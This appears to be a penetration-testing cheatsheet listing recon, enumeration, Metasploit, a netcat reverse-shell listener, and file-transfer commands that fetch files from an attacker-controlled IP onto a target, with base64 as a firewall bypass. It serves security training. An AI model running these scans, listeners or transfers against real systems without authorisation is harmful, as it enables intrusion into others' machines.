 
# 🛠️ Pentest Tools & Cheatsheets

---

## 📍 Index

1. [Reconnaissance](#reconnaissance)
2. [Enumeration](#enumeration)
3. [Exploitation](#exploitation)
4. [Post-Exploitation](#post-exploitation)
5. [File Transfer Techniques](#file-transfer)
6. [General Tools & Cheatsheets](#general-tools)

---

## 🔍 Reconnaissance <a name="reconnaissance"></a>

### 🌐 Web Enumeration

#### Gobuster

```bash
# Directory enumeration:
gobuster dir -u http://10.10.10.121/ -w /usr/share/seclists/Discovery/Web-Content/common.txt

# DNS subdomain enumeration:
gobuster dns -d target.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt
```

> ✅ **Codes to watch**: `200 OK`, `403 Forbidden`, `301 Redirect`

#### whatweb

```bash
whatweb http://target.com
```

Detects web technologies, frameworks, CMS, etc.

#### curl

```bash
curl -IL https://target.com
```

For banner grabbing and HTTP headers.

#### Certificates

Check SSL/TLS certificate for metadata and domain info.

#### CeWL

Generate custom wordlists from website content.

---

## 🧪 Enumeration <a name="enumeration"></a>

### Nmap

```bash
nmap -sC -sV -p- target.com
nmap -sV --script=banner <target>
```

- `-sC` : default scripts
- `-sV` : version detection
- `-p-` : scan all 65535 ports

### SMB Enumeration

```bash
smbclient -N -L \\10.129.42.253
```

- `-L` : list shares
- `-N` : no password prompt

---

## 💥 Exploitation <a name="exploitation"></a>

### searchsploit

```bash
searchsploit openssh 7.2
```

### Metasploit (msfconsole)

```bash
search exploit
use <exploit_path>
set <option> <value>
check
run
```

---

## 🔧 Post-Exploitation <a name="post-exploitation"></a>

### Netcat

```bash
# Listen for reverse shell
nc -lvnp 1234
```

Flags:
- `-l`: listen
- `-v`: verbose
- `-n`: no DNS
- `-p`: port

---

## 📁 File Transfer Techniques <a name="file-transfer"></a>

### Python HTTP Server

```bash
cd /tmp
python3 -m http.server 8000
```

### Remote Host Download

```bash
# wget
wget http://<your_ip>:8000/file

# curl
curl -O http://<your_ip>:8000/file
```

### SCP

```bash
scp localfile user@remote:/tmp/
```

### Base64 Encoding (Firewall Bypass)

On local:

```bash
base64 file > file.b64
```

On target:

```bash
base64 -d file.b64 > file
```

Validate transfer:

```bash
file file
md5sum file
```

---

## 📚 General Tools & Cheatsheets <a name="general-tools"></a>

### Socat

Netcat alternative with advanced features like serial or proxy.

### Tmux Cheatsheet

[tmuxcheatsheet.com](https://tmuxcheatsheet.com/)

### Vim Basics

```text
i       → insert mode  
esc     → leave insert mode  
x       → cut character  
dw      → cut word  
dd      → cut full line  
yw      → copy word  
yy      → copy full line  
p       → paste

:1      → go to line 1  
:w      → save file  
:q      → quit  
:q!     → force quit  
:wq     → save and quit
```

### Common Ports

[PacketLife Common Ports (Archived PDF)](https://web.archive.org/web/20240315102711/https://packetlife.net/media/library/23/common-ports.pdf)
